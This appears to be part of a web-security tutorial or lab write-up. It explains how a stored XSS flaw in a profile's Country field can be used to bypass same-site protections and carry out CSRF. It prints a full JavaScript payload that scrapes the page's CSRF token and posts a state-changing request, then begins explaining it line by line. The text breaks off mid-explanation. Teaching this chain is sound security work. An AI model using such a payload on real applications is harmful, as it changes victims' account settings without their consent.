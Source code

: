 Malicious cross-site requests are out of the equation due to the same origin/same site protections. We can still perform a CSRF attack through the stored XSS vulnerability that exists. Specifically, we will leverage the stored XSS vulnerability to issue a state-changing request against the web application. A request through XSS will bypass any same origin/same site protection since it will derive from the same domain!

Now it is time to develop the appropriate JavaScript payload to place within the Country field of user's profile.

The payload we should specify can be seen below:

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Let us break things down for you.

Firstly we put the entire script in ```<script>``` tags, so it gets executed as valid JavaScript; otherwise, it will be rendered as text.

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
```

The script snippet above creates an ObjectVariable called req, which we will be using to generate a request. var req = new XMLHttpRequest(); is allowing us to get ready to send HTTP requests.

```js
req.onload = handleResponse;
```

In the script snippet above, we see the onload event handler, which will perform an action once the page has been loaded. This action will be related to the handleResponse function that we will define later.

```js
req.open('get','/app/change-visibility',true);
```

In the script snippet above, we pass three arguments. get which is the request method, the targeted path /app/change-visibility and then true which will continue the execution.
